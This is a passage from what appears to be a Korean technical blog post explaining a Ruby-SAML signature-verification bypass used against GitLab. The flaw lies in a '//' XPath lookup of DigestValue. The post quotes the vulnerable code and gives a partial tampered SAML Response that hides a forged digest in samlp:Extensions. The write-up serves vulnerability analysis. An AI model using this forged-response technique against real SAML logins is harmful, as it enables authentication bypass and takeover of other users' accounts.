 JWT 토큰에도 로그인할 사용자 정보와 Signature 가 붙는데, 이와 유사한 구조라고 볼 수 있습니다.

**Ruby-SAML 우회**

Gitlab 은 SAML 인증을 위해 Ruby-SAML, OmniAuth-SAML 라이브러리를 사용 합니다. Ruby-SAML 에서는 XPath 를 통해 XML 요소들을 참조하게끔 구현이 돼있는데요. XPath 대략적인 문법은 다음과 같습니다.

- / - 루트 노드로부터 절대경로 참조, /samp:Response 처럼 쓸 경우 `<samlp:Response>` 엘리먼트를 의미함. /samlp:Response/saml:Issuer 처럼 쓰면 `<samlp:Response>` 아래의 `<saml:Issuer>` 를 의미함.
- ./ - 현재 노드로부터 상대경로 참조
- // - xml 문서 내 전체 탐색.

여기까지 봤을 때, 취약점이 왜 발생했는지 감이 오시나요? Ruby-SAML 에서는 Assertion 의 hash 인 DigestValue 를 갖고 오기 위해 // 문법을 사용하고 있었습니다. 

// 문법은 문서 전체를 탐색하기 때문에 DigestValue 가 SignedInfo 안에 없어도 검색이 가능했었죠. 그렇기에 공격자는 DigestValue 를 문서 내 아무 곳에 배치하는 것이 가능했습니다.

```jsx
encoded_digest_value = REXML::XPath.first(
  ref,
  "//ds:DigestValue",
  { "ds" => DSIG }
)
```

**서명 검증 우회**

취약점 트리거를 위해 짚어야할 사항은 다음과 같습니다.

- Assertion 에는 로그인할 ID 정보가 기재된다 → Assertion 변조 시 원하는 계정으로 로그인 가능하다.
- Assertion 무결성은 hash 와 서명으로 확보되는데, 이 값들은 SignedInfo 에 저장된다.

그렇다면 Assertion 을 변조하고 변조된 Assertion 의 DigestValue 를 SignedInfo 이전에 배치시킨다면 어떻게 될까요?

DigestValue 가 // 로 인해 앞 쪽에 배치가 가능한다고 해도 변경된 hash 가 서명 검증을 통과할 수 있을까요?

서명 검증에는 // 로 검색된 DigestValue 가 아닌, 원본 SignedInfo 내 존재하는 DigestValue 와 서명을 검사했습니다. 즉, SignedInfo 는 그대로 두고 변조된 DigestValue 만 앞 쪽에 배치한다면 인증을 우회할 수 있었습니다.

트리거에는 아무 요소나 배치될 수 있는 samlp:extensions 가 사용되었습니다. 공격자는 Assertion 의 digest 를 samlp:extension 로 감싸서 SignedInfo 앞 쪽에 배치하여 검증을 우회할 수 있습니다.

위 설명에 따른 변조된 SAML Response 예시는 다음과 같습니다.

```jsx
<?xml version="1.0" encoding="UTF-8"?>
<samlp:Response Destination="http://kubernetes.docker.internal:3000/saml/acs"
    ID="_afe0ff5379c42c67e0fb" InResponseTo="_f55b2958-2c8d-438b-a3fe-e84178b8d4fc"
    IssueInstant="2024-10-03T13:50:44.973Z" Version="2.0"
    xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:xs="http://www.w3.org/2001/XMLSchema">
    <saml:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity"
        xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">https://saml.example.com/entityid</saml:Issuer>
    <samlp:Extensions>
        <DigestValue xmlns="http://www.w3.org/2000/09/xmldsig#">
            변조된 assertion contents 의 digset
        </DigestValue>
    </samlp:Extensions>
    <samlp:Status xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol">
        <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </samlp:Status>
    <saml:Assertion ID="_911d8da24301c447b649" IssueInstant="2024-10-03T13:50:44.973Z" Version="2.0"
        xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
        xmlns:xs="http://www.w3.org/2001/XMLSchema">
        <saml:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity"
            xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">https://saml.example.com/entityid</saml:Issuer>
        <Signature xmlns="http://www.w3.org/2000/09/xmldsig#">
            <SignedInfo>
```